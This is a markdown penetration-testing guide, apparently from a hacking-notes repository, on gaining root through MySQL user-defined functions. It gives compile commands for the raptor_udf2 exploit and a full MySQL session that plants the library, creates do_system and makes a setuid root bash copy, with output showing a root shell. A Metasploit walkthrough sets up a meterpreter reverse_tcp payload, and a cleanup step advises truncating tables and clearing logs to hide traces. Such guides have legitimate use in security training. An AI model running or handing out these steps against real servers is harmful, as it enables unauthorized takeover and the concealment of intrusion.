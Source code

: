 # MySQL

## 01 - Unix Shell

### 1.1 - Detect

Exploiting misconfigured services with root access such as MySQL databases can pose a real risk that an attacker can take full control. If the following requirements has been met. MySQL whatever if MySQL has password database or no authentication which makes things even easier for the hacker.

Install the following dependencies

`$ sudo apt install default-libmysqlclient-dev`

We have lookup via `searchsploit` tool with a set of local copies of the exploitdb that is stored on the hacker's machine

`$ searchsploit mysql user-defined function`

`$ searchsploit -x 1518`

This [MySQL exploit](https://www.exploit-db.com/exploits/1518) has comments that explains with the builtin function for `do_system()` in MySQL that has something to do with misconfigurations with root access that allows the attacker to take full control. Follow the instructions of what the author wrote to compile the exploit.

### 1.2 - Exploit

```
$ gcc -g -c raptor_udf2.c -fPIC
$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Once the exploit is ready. Authenticate with the MySQL credentials with root privileges

```
$ mysql -u root

mysql> SHOW VARIABLES LIKE '%plugin%';

mysql> SHOW VARIABLES LIKE '%secure_file_priv%';

mysql> USE mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> CREATE TABLE newtbl(LINE BLOB);
Query OK, 0 rows affected (0.01 sec)

mysql> INSERT INTO newtbl VALUES(LOAD_FILE('/home/user/raptor_udf2.so'));
Query OK, 1 row affected (0.00 sec)

mysql> SELECT * FROM newtbl INTO DUMPFILE '/usr/lib/mysql/plugin/raptor_udf2.so';
Query OK, 1 row affected (0.00 sec)

mysql> CREATE FUNCTION do_system RETURNS INTEGER SONAME 'raptor_udf2.so';
Query OK, 1 row affected (0.00 sec)

mysql> SELECT do_system('cp /bin/bash /tmp/mysql-service; chmod +xs /tmp/mysql-service');
+----------------------------------------------------------------------------+
| do_system('cp /bin/bash /tmp/mysql-service; chmod +xs /tmp/mysql-service') |
+----------------------------------------------------------------------------+
|                                                                          0 |
+----------------------------------------------------------------------------+
1 row in set (0.01 sec)

user@debian:~$ ls -lh /tmp/mysql-service
-rwsr-s--x 1 root root 905K Jan 19 20:18 /tmp/mysql-service
user@debian:~$ /tmp/mysql-service -p
mysql-service-4.1# whoami
root
```

**TODO:** Write about this

Another way to exploit the MySQL service but this technique we'll be using it to transfer the file by copying the shared object file as in binary encoded text to execute MySQL query.

`$ searchsploit mysql user-defined`

`$ searchsploit -x 46249`

### 1.3 - Cleanup

TODO: Finish this info

Once it was successfully exploited. Get rid of the table you've created and clear the MySQL logs as well.

`mysql> TRUNCATE TABLE newtbl;`

## 02 - Metasploit

```
msf > use exploit/multi/mysql/mysql_udf_payload

msf exploit(multi/mysql/mysql_udf_payload) > options

Module options (exploit/multi/mysql/mysql_udf_payload): 

   Name              Current Setting  Required  Description 
   ----              ---------------  --------  ----------- 
   FORCE_UDF_UPLOAD  false            no        Always attempt to install a sys_exec() mysql.function. 
   PASSWORD                           no        The password for the specified username 
   RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit 
   RPORT             3306             yes       The target port (TCP) 
   SRVHOST           0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to l 
                                                isten on all addresses. 
   SRVPORT           8080             yes       The local port to listen on. 
   SSL               false            no        Negotiate SSL for incoming connections 
   SSLCert                            no        Path to a custom SSL certificate (default is randomly generated) 
   URIPATH                            no        The URI to use for this exploit (default is random) 
   USERNAME          root             no        The username to authenticate as 


Payload options (linux/x86/meterpreter/reverse_tcp): 

   Name   Current Setting  Required  Description 
   ----   ---------------  --------  ----------- 
   LHOST                   yes       The listen address (an interface may be specified) 
   LPORT  4444             yes       The listen port 


Exploit target: 

   Id  Name 
   --  ---- 
   0   Windows 


msf exploit(multi/mysql/mysql_udf_payload) > set target Linux

msf exploit(multi/mysql/mysql_udf_payload) > set rhosts <IP>

msf exploit(multi/mysql/mysql_udf_payload) > set username <username>

msf exploit(multi/mysql/mysql_udf_payload) > set password <password>

msf exploit(multi/mysql/mysql_udf_payload) > set lhost <IP>

msf exploit(multi/mysql/mysql_udf_payload) > run
```

## References

- [MySQL UDF Basics and Exploitation](https://blog.certcube.com/mysql-udf-basics-and-exploitation/)

- [Privilege Escalation with MySQL User Defined Functions](https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf)

- [Lib MySQLUDF_Sys](https://github.com/mysqludf/lib_mysqludf_sys)

- [Database Takeover User-Defined Functions (UDF) for MySQL and PostgreSQL Github repository](https://github.com/sqlmapproject/udfhack)

- [MySQL Show Privileges Statement](https://www.tutorialspoint.com/mysql/mysql_show_privileges_statement.htm)
